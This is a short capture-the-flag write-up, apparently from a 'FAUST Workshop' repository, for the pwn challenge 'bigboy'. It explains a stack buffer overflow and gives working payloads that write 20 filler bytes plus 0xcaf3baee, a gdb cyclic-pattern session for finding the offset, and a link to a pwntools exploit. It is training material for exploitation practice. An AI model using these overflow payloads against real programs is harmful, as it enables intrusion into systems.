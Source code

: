 # FAUST Workshop

## pwn

### bigboy

![bigboy](./_images/bigboy.png)

It's a simple buffer overflow. `iStack_24` needs to be overwritten with `0xcaf3baee`.

**Solution 1:**
```bash
cat <(echo -ne '\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xee\xba\xf3\xca') - | ./boi
```

**Solution 2:**
```bash
cat <(python -c 'import sys; sys.stdout.buffer.write(b"\x41" * 20 + b"\xee\xba\xf3\xca")') - | ./boi
```

**Solution 3:**

Find offset with cyclic pattern and `gdb-gef`
```bash
$ ./gdb -q ./boi
$ break *0x00000000004006a8
$ !pwn cyclic -n 4 50 > pattern.txt
$ run < pattern.txt
$ !pwn cyclic -n4 -l 0x61616166
20
```

Solve with `pwntools`: [exploit.py](./boi/exploit.py)
